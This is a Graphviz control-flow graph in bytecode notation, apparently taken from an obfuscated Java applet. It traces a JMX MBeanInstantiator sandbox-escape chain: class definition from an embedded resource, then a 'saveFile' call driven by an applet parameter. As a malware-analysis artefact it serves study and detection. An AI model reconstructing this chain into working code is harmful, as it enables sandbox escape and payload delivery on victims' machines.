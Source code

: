 digraph "" {
    "r0 := @this: osp"
    "new java.io.ByteArrayOutputStream"
    "r0 := @this: osp"->"new java.io.ByteArrayOutputStream";
    "store.r $r1"
    "new java.io.ByteArrayOutputStream"->"store.r $r1";
    "load.r $r1"
    "store.r $r1"->"load.r $r1";
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"
    "load.r $r1"->"specialinvoke <java.io.ByteArrayOutputStream: void <init>()>";
    "push 8192"
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"->"push 8192";
    "newarray"
    "push 8192"->"newarray";
    "store.r r18"
    "newarray"->"store.r r18";
    "load.r r0"
    "store.r r18"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "push \"W\u0001vCt\\f\""
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"push \"W\u0001vCt\\f\"";
    "staticinvoke <ggg: java.lang.String I(java.lang.String)>"
    "push \"W\u0001vCt\\f\""->"staticinvoke <ggg: java.lang.String I(java.lang.String)>";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "staticinvoke <ggg: java.lang.String I(java.lang.String)>"->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "store.r $i0"
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"store.r $i0";
    "load.r $i0"
    "store.r $i0"->"load.r $i0";
    "store.r r20"
    "load.r $i0"->"store.r r20";
    "goto load.r $i0"
    "store.r r20"->"goto load.r $i0";
    "goto load.r $i0"->"load.r $i0";
    "load.r r18"
    "load.r $i0"->"load.r r18";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r18"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i $i0"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i $i0";
    "load.i $i0"
    "store.i $i0"->"load.i $i0";
    "ifgt load.r $r1"
    "load.i $i0"->"ifgt load.r $r1";
    "ifgt load.r $r1"->"load.r $r1";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"
    "load.r $r1"->"virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"->"store.r $r1";
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "store.r $r1"->"new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "dup1.r"
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"dup1.r";
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>";
    "push \"4b%p&a4b%p&a4b%p&a4b%p&a4b%\""
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"->"push \"4b%p&a4b%p&a4b%p&a4b%p&a4b%\"";
    "staticinvoke <osp: java.lang.String I(java.lang.String)>"
    "push \"4b%p&a4b%p&a4b%p&a4b%p&a4b%\""->"staticinvoke <osp: java.lang.String I(java.lang.String)>";
    "pop"
    "staticinvoke <osp: java.lang.String I(java.lang.String)>"->"pop";
    "push \"\""
    "pop"->"push \"\"";
    "push null"
    "push \"\""->"push null";
    "push null"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>";
    "checkcast"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"->"checkcast";
    "push \"bJsXpIbJsXpIbJsXpIbJsXpIbJs\""
    "checkcast"->"push \"bJsXpIbJsXpIbJsXpIbJsXpIbJs\"";
    "push \"bJsXpIbJsXpIbJsXpIbJsXpIbJs\""->"staticinvoke <ggg: java.lang.String I(java.lang.String)>";
    "staticinvoke <ggg: java.lang.String I(java.lang.String)>"->"pop";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"
    "pop"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"->"dup1.r";
    "dup1.r"->"push \"4b%p&a4b%p&a4b%p&a4b%p&a4b%\"";
    "push \"4b%p&a4b%p&a4b%p&a4b%p&a4b%\""->"staticinvoke <osp: java.lang.String I(java.lang.String)>";
    "staticinvoke <osp: java.lang.String I(java.lang.String)>"->"pop";
    "pop"->"push \"bJsXpIbJsXpIbJsXpIbJsXpIbJs\"";
    "push \"bJsXpIbJsXpIbJsXpIbJsXpIbJs\""->"staticinvoke <ggg: java.lang.String I(java.lang.String)>";
    "staticinvoke <ggg: java.lang.String I(java.lang.String)>"->"pop";
    "pop"->"load.r r0";
    "virtualinvoke <osp: java.lang.String jsc()>"
    "load.r r0"->"virtualinvoke <osp: java.lang.String jsc()>";
    "virtualinvoke <osp: java.lang.String jsc()>"->"push null";
    "staticinvoke <ddc: java.lang.Class cds1(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.String,java.lang.ClassLoader)>"
    "push null"->"staticinvoke <ddc: java.lang.Class cds1(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.String,java.lang.ClassLoader)>";
    "staticinvoke <ddc: java.lang.Class cds1(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.String,java.lang.ClassLoader)>"->"store.r r18";
    "store.r r18"->"push \"4b%p&a4b%p&a4b%p&a4b%p&a4b%\"";
    "push \"4b%p&a4b%p&a4b%p&a4b%p&a4b%\""->"staticinvoke <osp: java.lang.String I(java.lang.String)>";
    "staticinvoke <osp: java.lang.String I(java.lang.String)>"->"pop";
    "pop"->"push \"bJsXpIbJsXpIbJsXpIbJsXpIbJs\"";
    "push \"bJsXpIbJsXpIbJsXpIbJsXpIbJs\""->"staticinvoke <ggg: java.lang.String I(java.lang.String)>";
    "staticinvoke <ggg: java.lang.String I(java.lang.String)>"->"pop";
    "pop"->"load.r r0";
    "virtualinvoke <osp: java.lang.String jsl()>"
    "load.r r0"->"virtualinvoke <osp: java.lang.String jsl()>";
    "virtualinvoke <osp: java.lang.String jsl()>"->"push null";
    "staticinvoke <ddc: java.lang.Class cds2(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.String,java.lang.ClassLoader)>"
    "push null"->"staticinvoke <ddc: java.lang.Class cds2(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.String,java.lang.ClassLoader)>";
    "staticinvoke <ddc: java.lang.Class cds2(com.sun.jmx.mbeanserver.MBeanInstantiator,java.lang.String,java.lang.ClassLoader)>"->"store.r r20";
    "store.r r20"->"push \"4b%p&a4b%p&a4b%p&a4b%p&a4b%\"";
    "push \"4b%p&a4b%p&a4b%p&a4b%p&a4b%\""->"staticinvoke <osp: java.lang.String I(java.lang.String)>";
    "staticinvoke <osp: java.lang.String I(java.lang.String)>"->"pop";
    "pop"->"push \"bJsXpIbJsXpIbJsXpIbJsXpIbJs\"";
    "push \"bJsXpIbJsXpIbJsXpIbJsXpIbJs\""->"staticinvoke <ggg: java.lang.String I(java.lang.String)>";
    "staticinvoke <ggg: java.lang.String I(java.lang.String)>"->"pop";
    "pop"->"load.r r18";
    "load.r r20"
    "load.r r18"->"load.r r20";
    "load.r r20"->"load.r $r1";
    "load.r $r1"->"load.r r18";
    "staticinvoke <fdg: java.lang.invoke.MethodType p2()>"
    "load.r r18"->"staticinvoke <fdg: java.lang.invoke.MethodType p2()>";
    "staticinvoke <fdg: java.lang.Object p3(java.lang.Class,java.lang.invoke.MethodType)>"
    "staticinvoke <fdg: java.lang.invoke.MethodType p2()>"->"staticinvoke <fdg: java.lang.Object p3(java.lang.Class,java.lang.invoke.MethodType)>";
    "staticinvoke <fdg: java.lang.Object p3(java.lang.Class,java.lang.invoke.MethodType)>"->"checkcast";
    "push 0"
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "staticinvoke <vlf: java.lang.Class xnp(java.lang.Class,java.lang.Class,byte[],java.lang.Object)>"
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"staticinvoke <vlf: java.lang.Class xnp(java.lang.Class,java.lang.Class,byte[],java.lang.Object)>";
    "staticinvoke <vlf: java.lang.Class xnp(java.lang.Class,java.lang.Class,byte[],java.lang.Object)>"->"pop";
    "pop"->"load.r r0";
    "push \"k&p\'\""
    "load.r r0"->"push \"k&p\'\"";
    "push \"k&p\'\""->"staticinvoke <osp: java.lang.String I(java.lang.String)>";
    "virtualinvoke <osp: java.lang.String getParameter(java.lang.String)>"
    "staticinvoke <osp: java.lang.String I(java.lang.String)>"->"virtualinvoke <osp: java.lang.String getParameter(java.lang.String)>";
    "push \"sq\""
    "virtualinvoke <osp: java.lang.String getParameter(java.lang.String)>"->"push \"sq\"";
    "push \"sq\""->"staticinvoke <ggg: java.lang.String I(java.lang.String)>";
    "staticinvoke <ggg: java.lang.String I(java.lang.String)>"->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>";
    "staticinvoke <ggg: java.lang.Object saveFile(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"->"staticinvoke <ggg: java.lang.Object saveFile(java.lang.String)>";
    "staticinvoke <ggg: java.lang.Object saveFile(java.lang.String)>"->"pop";
    "return"
    "pop"->"return";
    "store.r r0"
    "staticinvoke <ggg: java.lang.Object saveFile(java.lang.String)>"->"store.r r0";
    "store.r r0"->"return";
    "ifgt load.r $r1"->"load.r $r1";
    "load.r $r1"->"load.r r18";
    "load.r r18"->"push 0";
    "push 0"->"load.i $i0";
    "virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>"
    "load.i $i0"->"virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>"->"load.r r20";
    "load.r r20"->"store.r $i0";
}
